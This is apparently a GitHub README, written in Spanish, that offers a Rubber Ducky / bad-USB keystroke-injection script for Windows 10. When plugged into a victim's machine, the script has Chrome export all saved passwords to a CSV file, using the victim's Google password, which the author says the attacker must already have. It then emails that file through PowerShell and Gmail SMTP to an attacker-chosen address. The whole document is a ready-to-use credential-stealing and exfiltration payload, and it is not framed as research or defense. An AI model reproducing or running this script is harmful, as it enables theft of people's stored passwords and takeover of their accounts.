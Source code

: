 # better-google-password-grabber
Solia ocupar esos payloads para Rubber Ducky o bad-usb, muchos estan desactualizados ya que google implementa mas medidas de seguridad cada dia, en fin... para este payload necesitas la contraseña de la cuenta de google de la victima.




REM Author: DiegoJRV
REM Ducky chrome password stealer for Windows 10
Delay 1000
REM ----------- opens chrome web browser
GUI r
DELAY 500
STRING chrome
DELAY 400
ENTER
DELAY 600
REM ----------- exports passwords into csv file
STRING chrome://settings/passwords
ENTER
DELAY 1000
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 100
ENTER
DELAY 200
F5
DELAY 1000
CTRL f
DELAY 1000
STRING ayuda
DELAY 1000
ENTER
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 1000
ENTER
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 200
ENTER
DELAY 1000
CTRL f
DELAY 1000
STRING exportar contrase
DELAY 1000
ENTER
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 1000
ENTER
DELAY 2000
TAB
DELAY 2000
ENTER
DELAY 1000
ENTER
DELAY 4000
STRING CONTRASEÑA DEL CORREO (VICTIMA)
DELAY 1000
ENTER
DELAY 7000
STRING chromepasswords.csv
DELAY 2000
ENTER
DELAY 1000
CONTROL W
DELAY 100
REM -------------- sends it by email using powershell
GUI r
DELAY 200
STRING powershell
ENTER
DELAY 500
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
DELAY 100
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
DELAY 100
STRING $SMTPInfo.EnableSSL = $true
ENTER
DELAY 100
REM ---Make sure to enable less secure app access to sender's mail here: https://myaccount.google.com/lesssecureapps
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('PARTE DEL CORREO QUE VA ANTES DEL ARROBA (CORREO QUE ENVIARA)
ALTGR q
STRING gmail.com', 'CONTRASEÑA DEL CORREO')
ENTER
DELAY 100
STRING $SMTPServer = $E = New-Object System.Net.Mail.MailMessage
ENTER
DELAY 100
STRING $E.From = 'PARTE DEL CORREO QUE VA ANTES DEL ARROBA (CORREO QUE ENVIARA)
ALTGR q
STRING gmail.com'
ENTER
DELAY 100
STRING $E.To.Add('PARTE DEL CORREO QUE VA ANTES DEL ARROBA (CORREO QUE RECIBIRÁ)
ALTGR q
STRING gmail.com')
ENTER
DELAY 100
STRING $E.Subject = $env:UserName
ENTER
DELAY 100
STRING $E.Body = 'Success! The password file is attached!'
ENTER
DELAY 100
STRING $F = 'Downloads/chromepasswords.csv'
ENTER
DELAY 100
STRING $E.Attachments.Add($F)
ENTER
DELAY 100
STRING $F = $SMTPInfo.Send($E)
ENTER
DELAY 100
STRING exit
DELAY 100
ENTER
